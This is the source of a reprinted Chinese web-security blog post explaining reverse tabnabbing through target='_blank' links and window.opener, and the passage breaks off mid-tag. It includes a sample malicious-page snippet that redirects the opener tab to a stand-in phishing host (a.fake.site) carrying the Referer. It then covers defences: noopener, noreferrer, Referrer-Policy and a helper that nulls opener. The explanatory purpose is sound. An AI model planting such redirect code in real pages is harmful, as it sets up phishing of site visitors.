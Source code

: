 ```yaml
---
title: 你不曾察觉的隐患：危险的 target="_blank" 与 “opener”
hidden: true
categories: [reprint]
slug: 3aa5de53
date: 2018-11-09 02:30:05
---
```


{{< raw >}}
<blockquote>&#x5728;&#x7F51;&#x9875;&#x4E2D;&#x4F7F;&#x7528;&#x94FE;&#x63A5;&#x65F6;&#xFF0C;&#x5982;&#x679C;&#x60F3;&#x8981;&#x8BA9;&#x6D4F;&#x89C8;&#x5668;&#x81EA;&#x52A8;&#x5728;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x6253;&#x5F00;&#x6307;&#x5B9A;&#x7684;&#x5730;&#x5740;&#xFF0C;&#x901A;&#x5E38;&#x7684;&#x505A;&#x6CD5;&#x5C31;&#x662F;&#x5728; <code>a</code> &#x6807;&#x7B7E;&#x4E0A;&#x6DFB;&#x52A0; <code>target&#x7B49;&#x4E8E;&quot;_blank&quot;</code> &#x5C5E;&#x6027;&#x3002;<br>&#x7136;&#x800C;&#xFF0C;&#x5C31;&#x662F;&#x8FD9;&#x4E2A;&#x5C5E;&#x6027;&#xFF0C;&#x4E3A;&#x9493;&#x9C7C;&#x653B;&#x51FB;&#x8005;&#x5E26;&#x6765;&#x4E86;&#x53EF;&#x4E58;&#x4E4B;&#x673A;&#x3002;</blockquote><p><span class="img-wrap"><img data-src="/img/bVbg33P?w=1200&amp;h=600" src="https://static.alili.tech/img/bVbg33P?w=1200&amp;h=600" alt="" title="" style="cursor:pointer;display:inline"></span></p><h1 id="articleHeader0">&#x8D77;&#x6E90;</h1><h2 id="articleHeader1"><code>parent</code> &#x4E0E; <code>opener</code></h2><p>&#x5728;&#x8BF4; <code>opener</code> &#x4E4B;&#x524D;&#xFF0C;&#x53EF;&#x4EE5;&#x5148;&#x804A;&#x804A; <code>&lt;iframe&gt;</code> &#x4E2D;&#x7684; <code>parent</code>&#x3002;</p><p>&#x6211;&#x4EEC;&#x77E5;&#x9053;&#xFF0C;&#x5728; <code>&lt;iframe&gt;</code> &#x4E2D;&#x63D0;&#x4F9B;&#x4E86;&#x4E00;&#x4E2A;&#x7528;&#x4E8E;&#x7236;&#x5B50;&#x9875;&#x9762;&#x4EA4;&#x4E92;&#x7684;&#x5BF9;&#x8C61;&#xFF0C;&#x53EB;&#x505A; <code>window.parent</code>&#xFF0C;&#x6211;&#x4EEC;&#x53EF;&#x4EE5;&#x901A;&#x8FC7; <code>window.parent</code> &#x5BF9;&#x8C61;&#x6765;&#x4ECE;&#x6846;&#x67B6;&#x4E2D;&#x7684;&#x9875;&#x9762;&#x8BBF;&#x95EE;&#x7236;&#x7EA7;&#x9875;&#x9762;&#x7684; <code>window</code>&#x3002;</p><p><code>opener</code> &#x4E0E; <code>parent</code> &#x4E00;&#x6837;&#xFF0C;&#x53EA;&#x4E0D;&#x8FC7;&#x662F;&#x7528;&#x4E8E; <code>&lt;a target=&quot;_blank&quot;&gt;</code> &#x5728;&#x65B0;&#x6807;&#x7B7E;&#x9875;&#x6253;&#x5F00;&#x7684;&#x9875;&#x9762;&#x7684;&#x3002;&#x901A;&#x8FC7; <code>&lt;a target=&quot;_blank&quot;&gt;</code> &#x6253;&#x5F00;&#x7684;&#x9875;&#x9762;&#xFF0C;&#x53EF;&#x4EE5;&#x76F4;&#x63A5;&#x4F7F;&#x7528; <code>window.opener</code> &#x6765;&#x8BBF;&#x95EE;&#x6765;&#x6E90;&#x9875;&#x9762;&#x7684; <code>window</code> &#x5BF9;&#x8C61;&#x3002;</p><h2 id="articleHeader2">&#x540C;&#x57DF;&#x4E0E;&#x8DE8;&#x57DF;</h2><p>&#x6D4F;&#x89C8;&#x5668;&#x63D0;&#x4F9B;&#x4E86;&#x5B8C;&#x6574;&#x7684;&#x8DE8;&#x57DF;&#x4FDD;&#x62A4;&#xFF0C;&#x5728;&#x57DF;&#x540D;&#x76F8;&#x540C;&#x65F6;&#xFF0C;<code>parent</code> &#x5BF9;&#x8C61;&#x548C; <code>opener</code> &#x5BF9;&#x8C61;&#x5B9E;&#x9645;&#x4E0A;&#x5C31;&#x76F4;&#x63A5;&#x662F;&#x4E0A;&#x4E00;&#x7EA7;&#x7684; <code>window</code> &#x5BF9;&#x8C61;&#xFF1B;&#x800C;&#x5F53;&#x57DF;&#x540D;&#x4E0D;&#x540C;&#x65F6;&#xFF0C;<code>parent</code> &#x548C; <code>opener</code> &#x5219;&#x662F;&#x7ECF;&#x8FC7;&#x5305;&#x88C5;&#x7684;&#x4E00;&#x4E2A; <code>global</code> &#x5BF9;&#x8C61;&#x3002;&#x8FD9;&#x4E2A; <code>global</code> &#x5BF9;&#x8C61;&#x4EC5;&#x63D0;&#x4F9B;&#x975E;&#x5E38;&#x6709;&#x9650;&#x7684;&#x5C5E;&#x6027;&#x8BBF;&#x95EE;&#xFF0C;&#x5E76;&#x4E14;&#x5728;&#x8FD9;&#x4EC5;&#x6709;&#x7684;&#x51E0;&#x4E2A;&#x5C5E;&#x6027;&#x4E2D;&#xFF0C;&#x5927;&#x90E8;&#x5206;&#x4E5F;&#x90FD;&#x662F;&#x4E0D;&#x5141;&#x8BB8;&#x8BBF;&#x95EE;&#x7684;&#xFF08;&#x8BBF;&#x95EE;&#x4F1A;&#x76F4;&#x63A5;&#x629B;&#x51FA; <code>DOMException</code>&#xFF09;&#x3002;</p><p><span class="img-wrap"><img data-src="/img/bVbg33S?w=729&amp;h=42" src="https://static.alili.tech/img/bVbg33S?w=729&amp;h=42" alt="" title="" style="cursor:pointer;display:inline"></span></p><p><span class="img-wrap"><img data-src="/img/bVbg33T?w=729&amp;h=42" src="https://static.alili.tech/img/bVbg33T?w=729&amp;h=42" alt="" title="" style="cursor:pointer;display:inline"></span></p><p>&#x5728; <code>&lt;iframe&gt;</code> &#x4E2D;&#xFF0C;&#x63D0;&#x4F9B;&#x4E86;&#x4E00;&#x4E2A; <code>sandbox</code> &#x5C5E;&#x6027;&#x7528;&#x4E8E;&#x63A7;&#x5236;&#x6846;&#x67B6;&#x4E2D;&#x7684;&#x9875;&#x9762;&#x7684;&#x6743;&#x9650;&#xFF0C;&#x56E0;&#x6B64;&#x5373;&#x4F7F;&#x662F;&#x540C;&#x57DF;&#xFF0C;&#x4E5F;&#x53EF;&#x4EE5;&#x63A7;&#x5236; <code>&lt;iframe&gt;</code> &#x7684;&#x5B89;&#x5168;&#x6027;&#x3002;</p><h1 id="articleHeader3">&#x5229;&#x7528;</h1><p>&#x5982;&#x679C;&#xFF0C;&#x4F60;&#x7684;&#x7F51;&#x7AD9;&#x4E0A;&#x6709;&#x4E00;&#x4E2A;&#x94FE;&#x63A5;&#xFF0C;&#x4F7F;&#x7528;&#x4E86; <code>target=&quot;_blank&quot;</code>&#xFF0C;&#x90A3;&#x4E48;&#x4E00;&#x65E6;&#x7528;&#x6237;&#x70B9;&#x51FB;&#x8FD9;&#x4E2A;&#x94FE;&#x63A5;&#x5E76;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#xFF0C;&#x65B0;&#x6807;&#x7B7E;&#x4E2D;&#x7684;&#x9875;&#x9762;&#x5982;&#x679C;&#x5B58;&#x5728;&#x6076;&#x610F;&#x4EE3;&#x7801;&#xFF0C;&#x5C31;&#x53EF;&#x4EE5;&#x5C06;&#x4F60;&#x7684;&#x7F51;&#x7AD9;&#x76F4;&#x63A5;&#x5BFC;&#x822A;&#x5230;&#x4E00;&#x4E2A;&#x865A;&#x5047;&#x7F51;&#x7AD9;&#x3002;&#x6B64;&#x65F6;&#xFF0C;&#x5982;&#x679C;&#x7528;&#x6237;&#x56DE;&#x5230;&#x4F60;&#x7684;&#x6807;&#x7B7E;&#x9875;&#xFF0C;&#x770B;&#x5230;&#x7684;&#x5C31;&#x662F;&#x88AB;&#x66FF;&#x6362;&#x8FC7;&#x7684;&#x9875;&#x9762;&#x4E86;&#x3002;</p><h2 id="articleHeader4">&#x8BE6;&#x7EC6;&#x6B65;&#x9AA4;</h2><ol><li><p>&#x5728;&#x4F60;&#x7684;&#x7F51;&#x7AD9; <code>https://example.com</code> &#x4E0A;&#x5B58;&#x5728;&#x4E00;&#x4E2A;&#x94FE;&#x63A5;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre></li><li><p>&#x7528;&#x6237;&#x70B9;&#x51FB;&#x4E86;&#x8FD9;&#x4E2A;&#x94FE;&#x63A5;&#xFF0C;&#x5728;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x6253;&#x5F00;&#x4E86;&#x8FD9;&#x4E2A;&#x7F51;&#x7AD9;&#x3002;&#x8FD9;&#x4E2A;&#x7F51;&#x7AD9;&#x53EF;&#x4EE5;&#x901A;&#x8FC7; HTTP Header &#x4E2D;&#x7684; <code>Referer</code> &#x5C5E;&#x6027;&#x6765;&#x5224;&#x65AD;&#x7528;&#x6237;&#x7684;&#x6765;&#x6E90;&#x3002;</p><p>&#x5E76;&#x4E14;&#xFF0C;&#x8FD9;&#x4E2A;&#x7F51;&#x7AD9;&#x4E0A;&#x5305;&#x542B;&#x7740;&#x7C7B;&#x4F3C;&#x4E8E;&#x8FD9;&#x6837;&#x7684; JavaScript &#x4EE3;&#x7801;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="const url = encodeURIComponent(&apos;{{header.referer}}&apos;);
window.opener.location.replace(&apos;https://a.fake.site/?&apos; + url);" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="javascript hljs"><code class="javascript"><span class="hljs-keyword">const</span> url = <span class="hljs-built_in">encodeURIComponent</span>(<span class="hljs-string">&apos;{{header.referer}}&apos;</span>);
<span class="hljs-built_in">window</span>.opener.location.replace(<span class="hljs-string">&apos;https://a.fake.site/?&apos;</span> + url);</code></pre></li><li>&#x6B64;&#x65F6;&#xFF0C;&#x7528;&#x6237;&#x5728;&#x7EE7;&#x7EED;&#x6D4F;&#x89C8;&#x8FD9;&#x4E2A;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#x9875;&#xFF0C;&#x800C;&#x539F;&#x6765;&#x7684;&#x7F51;&#x7AD9;&#x6240;&#x5728;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x6B64;&#x65F6;&#x5DF2;&#x7ECF;&#x88AB;&#x5BFC;&#x822A;&#x5230;&#x4E86; <code>https://a.fake.site/?https%3A%2F%2Fexample.com%2F</code>&#x3002;</li><li>&#x6076;&#x610F;&#x7F51;&#x7AD9; <code>https://a.fake.site</code> &#x6839;&#x636E; Query String &#x6765;&#x4F2A;&#x9020;&#x4E00;&#x4E2A;&#x8DB3;&#x4EE5;&#x6B3A;&#x9A97;&#x7528;&#x6237;&#x7684;&#x9875;&#x9762;&#xFF0C;&#x5E76;&#x5C55;&#x793A;&#x51FA;&#x6765;&#xFF08;&#x671F;&#x95F4;&#x8FD8;&#x53EF;&#x4EE5;&#x505A;&#x4E00;&#x6B21;&#x8DF3;&#x8F6C;&#xFF0C;&#x4F7F;&#x5F97;&#x6D4F;&#x89C8;&#x5668;&#x7684;&#x5730;&#x5740;&#x680F;&#x66F4;&#x5177;&#x6709;&#x8FF7;&#x60D1;&#x6027;&#xFF09;&#x3002;</li><li>&#x7528;&#x6237;&#x5173;&#x95ED; <code>https://an.evil.site</code> &#x7684;&#x6807;&#x7B7E;&#x9875;&#xFF0C;&#x56DE;&#x5230;&#x539F;&#x6765;&#x7684;&#x7F51;&#x7AD9;&#x2026;&#x2026;&#x2026;&#x2026;&#x2026;&#x2026;&#x5DF2;&#x7ECF;&#x56DE;&#x4E0D;&#x53BB;&#x4E86;&#x3002;</li></ol><blockquote>&#x4E0A;&#x9762;&#x7684;&#x653B;&#x51FB;&#x6B65;&#x9AA4;&#x662F;&#x5728;&#x8DE8;&#x57DF;&#x7684;&#x60C5;&#x51B5;&#x4E0B;&#x7684;&#xFF0C;&#x5728;&#x8DE8;&#x57DF;&#x60C5;&#x51B5;&#x4E0B;&#xFF0C;<code>opener</code> &#x5BF9;&#x8C61;&#x548C; <code>parent</code> &#x4E00;&#x6837;&#xFF0C;&#x662F;&#x53D7;&#x5230;&#x9650;&#x5236;&#x7684;&#xFF0C;&#x4EC5;&#x63D0;&#x4F9B;&#x975E;&#x5E38;&#x6709;&#x9650;&#x7684;&#x5C5E;&#x6027;&#x8BBF;&#x95EE;&#xFF0C;&#x5E76;&#x4E14;&#x5728;&#x8FD9;&#x4EC5;&#x6709;&#x7684;&#x51E0;&#x4E2A;&#x5C5E;&#x6027;&#x4E2D;&#xFF0C;&#x5927;&#x90E8;&#x5206;&#x4E5F;&#x90FD;&#x662F;&#x4E0D;&#x5141;&#x8BB8;&#x8BBF;&#x95EE;&#x7684;&#xFF08;&#x8BBF;&#x95EE;&#x4F1A;&#x76F4;&#x63A5;&#x629B;&#x51FA; <code>DOMException</code>&#xFF09;&#x3002;<p>&#x4F46;&#x662F;&#x4E0E; <code>parent</code> &#x4E0D;&#x540C;&#x7684;&#x662F;&#xFF0C;<strong>&#x5728;&#x8DE8;&#x57DF;&#x7684;&#x60C5;&#x51B5;&#x4E0B;&#xFF0C;<code>opener</code> &#x4ECD;&#x7136;&#x53EF;&#x4EE5;&#x8C03;&#x7528; <code>location.replace</code> &#x65B9;&#x6CD5;</strong>&#x800C; <code>parent</code> &#x5219;&#x4E0D;&#x53EF;&#x4EE5;&#x3002;</p><p>&#x5982;&#x679C;&#x662F;&#x5728;&#x540C;&#x57DF;&#x7684;&#x60C5;&#x51B5;&#x4E0B;&#xFF08;&#x6BD4;&#x5982;&#x4E00;&#x4E2A;&#x7F51;&#x7AD9;&#x4E0A;&#x7684;&#x67D0;&#x4E00;&#x4E2A;&#x9875;&#x9762;&#x88AB;&#x690D;&#x5165;&#x4E86;&#x6076;&#x610F;&#x4EE3;&#x7801;&#xFF09;&#xFF0C;&#x5219;&#x60C5;&#x51B5;&#x8981;&#x6BD4;&#x4E0A;&#x9762;&#x4E25;&#x91CD;&#x5F97;&#x591A;&#x3002;</p></blockquote><h1 id="articleHeader5">&#x9632;&#x5FA1;</h1><p><code>&lt;iframe&gt;</code> &#x4E2D;&#x6709; <code>sandbox</code> &#x5C5E;&#x6027;&#xFF0C;&#x800C;&#x94FE;&#x63A5;&#xFF0C;&#x5219;&#x53EF;&#x4EE5;&#x4F7F;&#x7528;&#x4E0B;&#x9762;&#x7684;&#x529E;&#x6CD5;&#xFF1A;</p><h2 id="articleHeader6">1. Referrer Policy &#x548C; noreferrer</h2><p>&#x4E0A;&#x9762;&#x7684;&#x653B;&#x51FB;&#x6B65;&#x9AA4;&#x4E2D;&#xFF0C;&#x7528;&#x5230;&#x4E86; HTTP Header &#x4E2D;&#x7684; <code>Referer</code> &#x5C5E;&#x6027;&#xFF0C;&#x5B9E;&#x9645;&#x4E0A;&#x53EF;&#x4EE5;&#x5728; HTTP &#x7684;&#x54CD;&#x5E94;&#x5934;&#x4E2D;&#x589E;&#x52A0; <code>Referrer Policy</code> &#x5934;&#x6765;&#x4FDD;&#x8BC1;&#x6765;&#x6E90;&#x9690;&#x79C1;&#x5B89;&#x5168;&#x3002;</p><p><code>Referrer Policy</code> &#x9700;&#x8981;&#x4FEE;&#x6539;&#x540E;&#x7AEF;&#x4EE3;&#x7801;&#x6765;&#x5B9E;&#x73B0;&#xFF0C;&#x800C;&#x5728;&#x524D;&#x7AEF;&#xFF0C;&#x4E5F;&#x53EF;&#x4EE5;&#x4F7F;&#x7528; <code>&lt;a&gt;</code> &#x6807;&#x7B7E;&#x7684; <code>rel</code> &#x5C5E;&#x6027;&#x6765;&#x6307;&#x5B9A; <code>rel=&quot;noreferrer&quot;</code> &#x6765;&#x4FDD;&#x8BC1;&#x6765;&#x6E90;&#x9690;&#x79C1;&#x5B89;&#x5168;&#x3002;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noreferrer&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noreferrer&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><blockquote>&#x4F46;&#x662F;&#x8981;&#x6CE8;&#x610F;&#x7684;&#x662F;&#xFF1A;&#x5373;&#x4F7F;&#x9650;&#x5236;&#x4E86; <code>referer</code> &#x7684;&#x4F20;&#x9012;&#xFF0C;&#x4ECD;&#x7136;&#x4E0D;&#x80FD;&#x963B;&#x6B62;&#x539F;&#x6807;&#x7B7E;&#x88AB;&#x6076;&#x610F;&#x8DF3;&#x8F6C;&#x3002;</blockquote><h2 id="articleHeader7">2. noopener</h2><p>&#x4E3A;&#x4E86;&#x5B89;&#x5168;&#xFF0C;&#x73B0;&#x4EE3;&#x6D4F;&#x89C8;&#x5668;&#x90FD;&#x652F;&#x6301;&#x5728; <code>&lt;a&gt;</code> &#x6807;&#x7B7E;&#x7684; <code>rel</code> &#x5C5E;&#x6027;&#x4E2D;&#x6307;&#x5B9A; <code>rel=&quot;noopener&quot;</code>&#xFF0C;&#x8FD9;&#x6837;&#xFF0C;&#x5728;&#x6253;&#x5F00;&#x7684;&#x65B0;&#x6807;&#x7B7E;&#x9875;&#x4E2D;&#xFF0C;&#x5C06;&#x65E0;&#x6CD5;&#x518D;&#x4F7F;&#x7528; <code>opener</code> &#x5BF9;&#x8C61;&#x4E86;&#xFF0C;&#x5B83;&#x4E3A;&#x8BBE;&#x7F6E;&#x4E3A;&#x4E86; <code>null</code>&#x3002;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noopener&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noopener&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><h2 id="articleHeader8">3. JavaScript</h2><p><code>noopener</code> &#x5C5E;&#x6027;&#x770B;&#x4F3C;&#x662F;&#x89E3;&#x51B3;&#x4E86;&#x6240;&#x6709;&#x95EE;&#x9898;&#xFF0C;&#x4F46;&#x662F;...&#x6D4F;&#x89C8;&#x5668;&#x7684;&#x517C;&#x5BB9;&#x6027;&#x95EE;&#x9898;...</p><p><span class="img-wrap"><img data-src="/img/bVbg33Y?w=1200&amp;h=814" src="https://static.alili.tech/img/bVbg33Y?w=1200&amp;h=814" alt="" title="" style="cursor:pointer;display:inline"></span></p><p>&#x53EF;&#x4EE5;&#x770B;&#x5230;&#xFF0C;&#x73B0;&#x5728;&#x7EDD;&#x5927;&#x591A;&#x6570;&#x6D4F;&#x89C8;&#x5668;&#x90FD;&#x5DF2;&#x7ECF;&#x517C;&#x5BB9;&#x4E86; <code>rel=&quot;noopener&quot;</code> &#x5C5E;&#x6027;&#x4E86;&#x3002;&#x4F46;&#x662F;&#xFF0C;&#x4E3A;&#x4E86;&#x4FDD;&#x62A4;&#x7A0D;&#x65E7;&#x7684;&#x201C;&#x8FD1;&#x4EE3;&#x201D;&#x6D4F;&#x89C8;&#x5668;&#x6216;&#x662F;&#x5F88;&#x65E7;&#x7684;&#x201C;&#x53E4;&#x4EE3;&#x201D;&#x6D4F;&#x89C8;&#x5668;&#x751A;&#x81F3;&#x662F;&#x201C;&#x8FDC;&#x53E4;&#x201D;&#x6D4F;&#x89C8;&#x5668;&#xFF0C;&#x53EA;&#x6709; <code>noopener</code> &#x5C5E;&#x6027;&#x8FD8;&#x662F;&#x8FDC;&#x8FDC;&#x4E0D;&#x591F;&#x7684;&#x3002;</p><p>&#x8FD9;&#x65F6;&#xFF0C;&#x5C31;&#x53EA;&#x80FD;&#x8BF7;&#x51FA;&#x4E0B;&#x9762;&#x8FD9;&#x6BB5;&#x539F;&#x751F; JavaScript &#x6765;&#x5E2E;&#x5FD9;&#x4E86;&#x3002;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&quot;use strict&quot;;
function openUrl(url) {
  var newTab = window.open();
  newTab.opener = null;
  newTab.location = url;
}" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="hljs javascript"><code><span class="hljs-meta">&quot;use strict&quot;</span>;
<span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">openUrl</span>(<span class="hljs-params">url</span>) </span>{
  <span class="hljs-keyword">var</span> newTab = <span class="hljs-built_in">window</span>.open();
  newTab.opener = <span class="hljs-literal">null</span>;
  newTab.location = url;
}</code></pre><h1 id="articleHeader9">&#x63A8;&#x8350;</h1><p>&#x9996;&#x5148;&#xFF0C;&#x5728;&#x7F51;&#x7AD9;&#x4E2D;&#x7684;&#x94FE;&#x63A5;&#x4E0A;&#xFF0C;&#x5982;&#x679C;&#x4F7F;&#x7528;&#x4E86; <code>target=&quot;_blank&quot;</code>&#xFF0C;&#x5C31;&#x8981;&#x5E26;&#x4E0A; <code>rel=&quot;noopener&quot;</code>&#xFF0C;&#x5E76;&#x4E14;&#x5EFA;&#x8BAE;&#x5E26;&#x4E0A; <code>rel=&quot;noreferrer&quot;</code>&#x3002;&#x7C7B;&#x4F3C;&#x4E8E;&#x8FD9;&#x6837;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noopener noreferrer&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noopener noreferrer&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><p>&#x5F53;&#x7136;&#xFF0C;&#x5728;&#x8DF3;&#x8F6C;&#x5230;&#x7B2C;&#x4E09;&#x65B9;&#x7F51;&#x7AD9;&#x7684;&#x65F6;&#x5019;&#xFF0C;&#x4E3A;&#x4E86; SEO &#x6743;&#x91CD;&#xFF0C;&#x8FD8;&#x5EFA;&#x8BAE;&#x5E26;&#x4E0A; <code>rel=&quot;nofollow&quot;</code>&#xFF0C;&#x6240;&#x4EE5;&#x6700;&#x7EC8;&#x7C7B;&#x4F3C;&#x4E8E;&#x8FD9;&#x6837;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noopener noreferrer nofollow&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" 